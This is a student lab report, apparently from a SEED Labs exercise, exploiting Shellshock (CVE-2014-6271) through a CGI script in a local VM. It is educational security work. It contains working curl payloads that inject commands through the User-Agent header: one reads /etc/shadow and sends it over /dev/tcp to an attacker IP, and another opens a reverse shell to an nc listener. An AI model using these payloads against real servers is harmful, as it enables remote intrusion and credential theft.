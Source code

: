 # Lab1 Report - Shellshock


## Task 1
> Please run this vulnerable version of Bash like the following and then design an experiment to verify whether this Bash is vulnerable to theShellshock attack or not. 
Try the same experiment on the patched version of bash (/bin/bash) and report your observations.

This script exploits the Shellshock vulnerability on the vulnerable bash.

```bash
#!/bin/bash_shellshock

foo='() { echo "Hello World!"; }; echo "shellshocked!";'

echo $foo   # Output the defined variable
export foo  # Export the created variable to a environment variable

/bin/bash_shellshocked  # If shell is vulnerable, bash will run the miss-parsed variable command, in this case, 'echo "shellshocked"!'
```

This script runs on the patched bash version, therefore, the miss-parsed command doesn't run.

```bash
#!/bin/bash

foo='() { echo "Hello World!"; }; echo "shellshocked!";'

echo $foo   # Output the defined variable
export foo  # Export the created variable to a environment variable

/bin/bash   # If shell is vulnerable, bash will run the miss-parsed variable command, in this case, 'echo "shellshocked"!'
```
Result:  
![Task 1](images/task1.png)

## Task 3
>  In your report, please explain how the data from a remote user can get into those environment variables.

Common gateway interface (CGI) is utilized by web servers to run executable programs that dynamically generate web pages.
Many CGI programs use shell scripts, if bash is used, they may be subject to the Shellshock attack.

Data from the client side gets to the CGI program through the User-Agent parameter. That parameter then is exported to a environment variable.  
This parameter can be observed using the flag -v when executing a curl command.
```bash
curl -v http://localhost/cgi-bin/myprog.cgi
```
![Task 3](images/task3.png)

And by adding the line ```strings /proc/$$/environ```, the cgi program, when acessed, it outputs the environment variables of the process running the server. Thus it's possible to observe that the variable HTTP_USER_AGENT is set with the value sent by the curl command.
![Task 3-2](images/task3-2.png)

It's possible to specify the User-Agent variable with the flag -A:  
```bash
curl -A "test" -v http://localhost/cgi-bin/myprog.cgi
```

Therefore, by running this command, the results are the following:
![Task 3-2](images/task3-3.png)
![Task 3-4](images/task3-4.png)

This is how data from a remote user without special privileges can get into a server's environment variables.

##  Task 4
>  In this task, you should demonstrate the following:  
-Using the Shellshock attack to steal the content of a secret file from the server.  
-Answer the following question: will you be able to steal the content of the shadow file ```/etc/shadow``` ? Why or why not?

It's not possible to observe the shellshock attack output without redirecting the stdout it is tied to the apache server process shell.

```bash
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" -v http://localhost/cgi-bin/myprog.cgi
```

This shows no output on the attacker shell.

A reverse shell is an attack that consists in redirecting a victim's shell standard IO to a attacker's bash session via network. This consists of redirecting the standard output to a TCP socket and redirecting the receiving TCP socket data to the standard input of the victim's bash.

I've setup a VM running Ubuntu 16.04 SEED Labs version with a Linux host. The virtual machine can communicate with the host machine using the internal network addresses, used to redirect the data. On the attacker PC, the following command is running:
```bash
nc -l 9090 -v
```
This command outputs the data received from the TCP port 9090.

This is the command used to get the content of ```/etc/shadow``` and redirect it to the TCP connection.
```bash
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow > /dev/tcp/192.168.122.1/9090 0<&1 2>&1" -v http://localhost/cgi-bin/myprog.cgi
```

The command fetches the content of the ```/etc/shadow``` file and redirects the output to the TCP socket 9090 and the network address 192.168.122.1 that is the address where the attacker computer is located (in this case, my host machine).

However, because the apache server process has no root privileges, the output of this command yiels a "Permission denied".  
![Task 4](images/task4.png)

## Task 5
> In this task, you need to demonstrate how to launch a reverse shell via the Shellshock vulnerability in a CGI program.  Please show how you do it.  In your report, please also explain how you set up the reverse shell, and why it works.  Basically, you need to use your own words to explain how reverse shell works in your Shellshock attack.

To launch the reverse shell command, a TCP connection must be open on the attacker's computer to receive the incoming shell stdin and stdout. To do this, we use the command previously used:
```bash
nc -l 9090 -v
```

And to execute the attack, we run the following command on the victim's computer, in this case, a curl command on the virtual machine:
```bash
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/192.168.122.1/9090 0<&1 2>&1" -v http://localhost/cgi-bin/myprog.cgi
```

This command launches an interactive shell and redirect the output of the shell (stdout and stderr) and the shell input (stdin) to the stdout that is already redirected to the TCP connection, so the input of that shell will be from the TCP connection.

Output of the attacker computer:  
![Task 5](images/task5.png)

Now the attacker computer has access to a shell of the victim's computer or server.
Still has no root privileges, so the options fo the attack are limited.

## Task 6
> Now, let us use a Bash program that has already been patched.  The program ```/bin/bash``` is a patched version.  Please replace the first line of your CGI programs with this program.  Redo Tasks 3 and 5 and describe your observations.

### Task 3
The results observed are the same regarding setting the environment variable with a remote user's data.

### Task 5
Using the patched shell, the previous attack has no output. This is because the miss-parsed code on the environment variable is no longer being executed, therefore, the attack is neutralized.

